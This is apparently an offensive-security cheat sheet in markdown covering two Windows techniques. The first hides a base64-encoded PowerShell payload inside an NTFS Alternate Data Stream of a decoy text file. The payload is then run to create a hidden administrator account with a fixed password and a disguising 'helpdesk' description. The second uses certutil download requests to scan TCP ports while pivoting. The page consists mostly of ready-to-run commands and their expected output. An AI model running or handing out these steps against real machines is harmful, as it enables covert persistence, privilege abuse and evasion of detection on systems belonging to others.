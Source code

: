 ## >> Hiding payloads in Alternate Data Streams (ADS)

**Create a container file on an NTFS file system**<br />
`echo This is a harmless text file :) > c:\windows\temp\harmless.txt`

**Verify the contents of the container file**<br />
`type c:\windows\temp\harmless.txt`<br />
(output) `This is a harmless text file :)`

**Check the file size of the container file**<br />
`dir c:\windows\temp\harmless.txt`<br />
(output) `1 File(s) 34 bytes`

**Create powershell payload as base64 to add a backdoor account**<br />
Run `cat | base64 -w 0; echo` then paste the following code, press ctrl-d (EOF) when finished.<br />
```powershell
$Password = ConvertTo-SecureString "+BackD00rAdmin+" -AsPlainText -Force
New-LocalUser -Name "BDAdmin" -Password $Password -AccountNeverExpires -FullName "BD Admin" -Description "Helpdesk account, do not delete" -PasswordNeverExpires
Add-LocalGroupMember -Group "Administrators" -Member "BDAdmin"
```

**Create the hidden payload data stream using the base64 output above**<br />
`echo JFBhc3N3b3JkID0gQ29udmVydFRvLVNlY3VyZVN0cmluZyAiK0JhY2tEMDByQWRtaW4rIiAtQXNQbGFpblRleHQgLUZvcmNlCk5ldy1Mb2NhbFVzZXIgLU5hbWUgIkJEQWRtaW4iIC1QYXNzd29yZCAkUGFzc3dvcmQgLUFjY291bnROZXZlckV4cGlyZXMgLUZ1bGxOYW1lICJCRCBBZG1pbiIgLURlc2NyaXB0aW9uICJIZWxwZGVzayBhY2NvdW50LCBkbyBub3QgZGVsZXRlIiAtUGFzc3dvcmROZXZlckV4cGlyZXMKQWRkLUxvY2FsR3JvdXBNZW1iZXIgLUdyb3VwICJBZG1pbmlzdHJhdG9ycyIgLU1lbWJlciAiQkRBZG1pbiIK > c:\windows\temp\harmless.txt:payload.ps1`

**Verify the size and contents of** `harmless.txt` **have not changed**<br />
`dir c:\windows\temp\harmless.txt`<br />
(output) `1 File(s) 34 bytes`<br />
`type c:\windows\temp\harmless.txt`<br />
(output) `This is a harmless text file :)`

**Detonate the hidden payload to create the backdoor account**<br />
```powershell
powershell -command " &{[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-Content c:\windows\temp\harmless.txt -Stream payload.ps1 -Raw))) | Invoke-Expression}"
```

## >> TCP port scanning using certutil

This technique can be used when pivoting.  The error code indicates the status of the remote service.<br />
The target being scanned in this example is 10.1.2.3 port 8080.

`certutil -urlcache -split -f http://10.1.2.3:8080/doesnotexist.file doesnotexist.file | findstr FAILED`<br />
Response `0x80072f78` the port responded but is not HTTP protocol.<br />
Response `0x80190194` the port responded to HTTP but `doesnotexist.file` is not present (404 error).<br />
Response `0x80072efd` the port did not respond.<br />
Response does not contain an error code, then the file was retrieved successfully.
